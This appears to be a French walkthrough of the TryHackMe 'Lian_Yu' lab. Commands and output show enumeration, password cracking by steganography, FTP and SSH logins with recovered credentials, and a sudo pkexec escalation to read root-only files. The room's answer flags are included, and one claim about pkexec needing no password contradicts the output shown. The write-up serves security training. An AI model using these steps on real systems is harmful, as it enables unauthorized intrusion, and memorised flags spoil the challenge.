

# Lian_Yu #

** Deploy the VM and Start the Enumeration. **
Cliquez sur start machine.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.205.170 lianyu.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

im@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A lianyu.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-31 08:20 CEST
Nmap scan report for lianyu.thm (10.10.205.170)
Host is up (0.033s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40075/udp6  status
|   100024  1          44038/udp   status
|   100024  1          45808/tcp6  status
|_  100024  1          60364/tcp   status
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   32.43 ms 10.9.0.1
2   32.82 ms lianyu.thm (10.10.205.170)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.45 seconds

```

Avec un scan map on voit les services : 
Le service FTP sur le port 21.   
Le service SSH sur le port 22.    
Le service rcpbin sur le port 111.   

**What is the Web Directory you found?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://lianyu.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lianyu.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/31 08:28:23 Starting gobuster in directory enumeration mode
===============================================================
/island               (Status: 301) [Size: 233] [--> http://lianyu.thm/island/]
/server-status        (Status: 403) [Size: 199]                                
                                                                               
===============================================================
2021/07/31 08:41:45 Finished
===============================================================
```
Avec sur gobuster on trouve un lien \/island.    


En passant la souris sur le texte nous avons un mot de passe ou un nom d'utilisateur.  
Nom utilisateur : vigilante.  

```bash
im@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://lianyu.thm/island/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lianyu.thm/island/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/31 08:42:21 Starting gobuster in directory enumeration mode
===============================================================
/2100                 (Status: 301) [Size: 238] [--> http://lianyu.thm/island/2100/]
                                                                                    
===============================================================
2021/07/31 08:55:29 Finished
===============================================================
```

On trouve repértoire  caché.  
Réponse : 2100  

what is the file name you found?

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://lianyu.thm/island/2100/index.html | grep -F '<!--'
<!-- you can avail your .ticket here but how?   -
```

Dans les commentaires on remarque une extension .ticket 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://lianyu.thm/island/2100/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .ticket
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lianyu.thm/island/2100/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              ticket
[+] Timeout:                 10s
===============================================================
2021/07/31 09:11:33 Starting gobuster in directory enumeration mode
===============================================================
/green_arrow.ticket   (Status: 200) [Size: 71]
                                              
===============================================================
2021/07/31 09:37:30 Finished
===============================================================
```

Nous trouvons un fichier.
La réponse est  : green_arrow.ticket 

**what is the FTP Password?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://lianyu.thm/island/2100/green_arrow.ticket

This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX

```



Dans le ficher green_arrow.ticket nous avons un mot de passe encodé en base58.  
Un fois décodé le mot de passe est : !#th3h00d  

**what is the file name with SSH password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp lianyu.thm
Connected to lianyu.thm.
220 (vsFTPd 3.0.2)
Name (lianyu.thm:tim): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
226 Directory send OK.
ftp> get Leave_me_alone.png
local: Leave_me_alone.png remote: Leave_me_alone.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
226 Transfer complete.
511720 bytes received in 0.23 secs (2.1341 MB/s)
ftp> get Queen\'s_Gambit.png
local: Queen's_Gambit.png remote: Queen's_Gambit.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
226 Transfer complete.
549924 bytes received in 0.21 secs (2.4468 MB/s)
ftp> get aa.jpg
local: aa.jpg remote: aa.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
226 Transfer complete.
191026 bytes received in 0.11 secs (1.7177 MB/s)
ftp> exit
221 Goodbye.
```

On récupère les fichiers.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ stegseek aa.jpg /usr/share/wordlists/rockyou.txt 
StegSeek version 0.5
Progress: 0.00% (0 bytes)           

[i] --> Found passphrase: "password"
[i] Original filename: "ss.zip"
[i] Extracting to "aa.jpg.out"

tim@kali:~/Bureau/tryhackme/write-up$ file aa.jpg.out 
aa.jpg.out: Zip archive data, at least v2.0 to extract

tim@kali:~/Bureau/tryhackme/write-up$ unzip aa.jpg.out
Archive:  aa.jpg.out
  inflating: passwd.txt              
  inflating: shado     

    tim@kali:~/Bureau/tryhackme/write-up$ cat passwd.txt 
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.


tim@kali:~/Bureau/tryhackme/write-up$ cat shado 
M3tahuman

```

On récupère les fichiers cachés dans l'image.   
Dans le fichier shado on trouve un mot de passe.  
Réponse : shado

**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp lianyu.thm
Connected to lianyu.thm.
220 (vsFTPd 3.0.2)
Name (lianyu.thm:tim): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/home/vigilante"
ftp> ls /home/
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 May 01  2020 slade
drwxr-xr-x    2 1001     1001         4096 May 05  2020 vigilante
226 Directory send OK.
ftp> exit
221 Goodbye.
```

Nous remarquons qu'il y a 2 utilisateurs.   
slade et vigilante.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh slade@lianyu.thm
slade@lianyu.thm's password: 
			      Way To SSH...
			  Loading.........Done.. 
		   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


	██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
	██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
	██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
	██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
	███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
	╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak

```

On se connect sur le shell avec l'utilisateur slade, puis on récupère le flag.   
La réponse est : THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}   

**root.txt**

```bash
slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak

slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

On remarque que l'on peut exécuter pkexec sans mot de passe avec sudo.  

```bash
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/cat /root/root.txt
                          Mission accomplished


You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 


THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

On lit le fichier \/root\/root.txt en exécutant cat avec pkexec qui a les droits administrateur.  
La réponse est : THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}    
